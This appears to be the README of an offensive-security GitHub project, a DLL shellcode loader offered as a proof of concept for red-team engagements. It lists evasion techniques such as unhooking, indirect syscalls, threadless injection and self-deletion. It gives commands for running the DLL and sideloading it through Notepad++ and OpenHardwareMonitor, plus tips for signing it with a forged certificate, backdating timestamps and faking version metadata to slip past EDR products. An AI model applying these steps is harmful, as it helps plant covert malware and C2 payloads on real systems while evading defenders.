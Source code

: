 [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Follow @JimKwik_X](https://img.shields.io/twitter/follow/JimKwik_X?style=social)](https://x.com/JimKwik_X)

# A DLL Shellcode Loader POC

![image](Images/loader.png)

# Techniques used:
- NTDLL.dll unhooking
- Indirect Syscalls
- Rop Gadgets 
- Anti analysis by self deleting after execution
- [Threadless injection](https://github.com/CCob/ThreadlessInject) with  with HWBP
- Remote payload download over HTTPs with a customed header for authtication
- VEH unhooking
- DLL sideload
- Payload AES encryption on the fly 

Compile in Visual Studio -> `x64` -> `Release`

# Usage:

# **Run by Rundll32.exe**

Add `#Define badger` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L199)

Run as:

```js
rundll32.exe Dllloader.dll,run
```

# **Sideload [Notepad++](https://notepad-plus-plus.org/)**

1. Add `#Define NOTEPAD` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L212)

2. Rename `Dllloader.dll` to `libcurl.dll` and place it in [updater](./updater/) folder

3. Run `updater.exe` in the [updater](./updater/) folder to sideload the dll

# **Sideload [OpenHardwareMonitor](https://openhardwaremonitor.org/)**

1. Add `#Define MONITOR` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L169)


2. Rename `Dllloader.dll` to `DWrite.dll` and place it in [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder

3. Run `OpenHardwareMonitor.exe` in the [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder to sideload the dll



# 💡Tips:

- Use the [signtool](./signtool/) to sign a ceritifcate on the DLL some EDRs flag unsigned dlls straightaway such as Elastic and change the date similar to the orginal dll

![elastic](./Images/Elastic.png)

- **Signtool Powershell commands**

```js
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365
openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx
signtool sign /f sign.pfx /p password /t http://timestamp.digicert.com /fd sha256 DWrite.dll

```
- **Changing dates**

```js
$x = "DWrite.dll"
$(Get-Item $x).creationtime=$(Get-Date "03/3/2024")
$(Get-Item $x).lastwritetime=$(Get-Date "03/3/2022")
$(Get-Item $x).lastaccesstime=$(Get-Date "07/23/2024")
```

- **Add metadata to the DLL and do not leave it blank**


Add a `Resource.rc` file in Visual Studio and the following metadata for `DWrite.dll` so it looks like this

![DWrite](./Images/Dwritre.png)

```js
1 VERSIONINFO
 FILEVERSION 9.6.0.0 // File version separated by commas
 PRODUCTVERSION 0.9.6.0
 FILEFLAGSMASK 0x0L
#ifdef _DEBUG
 FILEFLAGS 0x1L
#else
 FILEFLAGS 0x0L
#endif
 FILEOS 0x0L
 FILETYPE 0x0L
 FILESUBTYPE 0x0L
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN 
            // Modify the values below
            VALUE "CompanyName", "(C) 2009-2020 Michael Möller"
            VALUE "FileDescription", "Open Hardware Monitor Library"
            VALUE "InternalName", "Chrome"
            VALUE "LegalCopyright", "(C) 2009-2020 Michael Möller"
            VALUE "OriginalFilename", "OpenHardwareMonitorLib.dll"
            VALUE "ProductName", "Open Hardware Monitor Library"
            VALUE "ProductVersion", "0.9.6"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
        VALUE "Translation", 0x409, 1200
    END
END
```


# ⚠️ Disclaimer: 
Always tweak the code during an enagament, this is just a POC but its not good to add everything in one loader. Its better to use stagers to prevent the main C2 shellcode gets burnt. 

# Video Demo

Click [here](https://drive.google.com/file/d/1LenFbhhj8n7esZXn6NXPdZ-pDy8bTdjx/view) to see the full demo.
